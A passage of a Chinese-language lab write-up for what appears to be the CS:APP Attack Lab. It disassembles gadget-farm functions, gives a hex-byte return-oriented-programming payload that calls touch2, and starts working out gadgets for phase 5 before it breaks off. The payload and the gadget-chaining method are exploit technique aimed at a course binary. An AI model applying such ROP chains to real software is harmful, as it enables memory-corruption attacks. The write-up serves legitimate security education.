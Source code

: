 ```
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret
```

中的 `48 89 c7` 则可以直接让我们把注入的数据传到参数中，后面的 `c3` 直接返回

两者的地址分别是 `0x4019ab` 和 `0x4019a2`，touch2 的地址为 `0x4017ec`

于是我们这么构造：

```text
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
a0
```

显示填充缓冲区，然后是第一次跳转地址（到 `pop`），然后是注入数据，然后是第二次跳转地址（到 `mov`），然后是第三次跳转地址（到 touch2）

### Phase 5

指导书在这里开始有点劝退还挺有意思（）

首先提到这里需要用到一些新的指令

![](http://pic.caiwen.work/i/2025/07/21/687e2e971bbc0.png)

D 组比较有意思，这些指令执行之后并不会改变任何寄存器，可以视为 `nop` 指令

以及提到了标准答案用到了 8 个 gadgets，非常可怕

同时还说到了 `movl` 会将寄存器的高 32 位清零

首先我们要考虑还和上面一样注入字符串的数据。字符串指针的数据比较难搞，因为我们现在不知道栈的具体地址，不能直接把指针指向栈上。而给出的指令都没有涉及到内存寻址。

我想到一个办法，可以考虑把数据正好注入在最后执行 touch3 之前的栈顶上，然后把 `%rsp` 赋值给 `%rdi`。不过对应的 `48 89 e7` 没有在代码中找到。反而是观察到了 `48 89 e0` 有很多，对应于 `mov %rsp,%rax`。我们过滤掉一些不能用的（即 `48 89 e0` 后面还跟着其他未知指令），还有这些：

```
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	ret
0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	ret
```

那么再考虑从 `%rax` 传到别的地方，刚好就有下面这个 `mov %rax,%rdi`

```
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	ret
```
